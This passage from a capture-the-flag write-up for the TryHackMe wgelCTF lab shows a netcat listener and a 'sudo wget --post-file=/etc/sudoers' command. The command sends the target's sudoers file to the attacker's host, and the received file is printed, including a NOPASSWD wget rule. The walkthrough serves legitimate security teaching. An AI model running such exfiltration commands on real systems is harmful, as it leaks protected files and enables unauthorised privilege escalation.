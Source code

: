 Before we send we need to be able to receive it. Lets set up netcat on port 1234 on our machine. 
```
~/CTF/tryhackme/wgelCTF$ nc -lnvp 1234
listening on [any] 1234 ...
```
Now we can post our file from the target.

```
jessie@CorpOne:~/Documents$ sudo wget --post-file=/etc/sudoers 10.9.12.213:1234
--2020-08-21 11:31:11--  http://10.9.12.213:1234/
Connecting to 10.9.12.213:1234... connected.
HTTP request sent, awaiting response... No data received.
Retrying.

--2020-08-21 11:32:21--  (try: 2)  http://10.9.12.213:1234/
Connecting to 10.9.12.213:1234... failed: Connection refused.
```
Now we receive the file on the netcat. 
```
connect to [10.9.12.213] from (UNKNOWN) [10.10.15.115] 36246
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.9.12.213:1234
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 797

#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults	env_reset
Defaults	mail_badpass
Defaults	secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root	ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d
jessie	ALL=(root) NOPASSWD: /usr/bin/wget
```